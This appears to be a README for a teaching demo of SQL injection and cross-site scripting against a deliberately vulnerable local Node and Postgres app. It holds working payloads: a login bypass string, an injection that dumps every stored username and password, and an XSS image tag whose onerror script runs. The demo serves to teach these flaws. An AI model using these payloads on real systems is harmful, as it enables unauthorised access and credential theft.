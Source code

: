 # Demo of SQL Injection and Cross Site Scripting

## Setup
In Postgres, create a database `demo`, user `demo`, password `demo`

    create table users(number serial, name text, email text, message text);
    grant all on users to demo;
    grant all on users_number_seq to demo;
    insert into users(name,message) values('Alice','Such a good cause, hope you succeed'),('Bob Smith', 'This is great'),('Charles', 'You guys are amazing!'),('Danii','Good work!');
    create table login(name text, password text);
    grant all on login to demo;
    insert into login values('admin', 'opensesame'),('alice','s3cr3t'),('bob','gunners4eva'),('charlie','shhh');


## Running

Start the server

    node server.js

open http://localhost:8000/login.html in a browser

### On the login screen

in user name put `admin`, in password put

    ' or 1=1--

observe that you can log in (`' or 1=1--` is not the actual password!)

### On the Join Us form

In message put

    ') returning (select string_agg(concat(name,'/',password),',') as number from login)--

observe that it shows you all the users and passwords.

In message put

    <img src="" onerror="alert(`Now sending all your cookies to the bad guys`)"/>

Load the "See all our backers" page. Observe that the naughty Javascript runs.

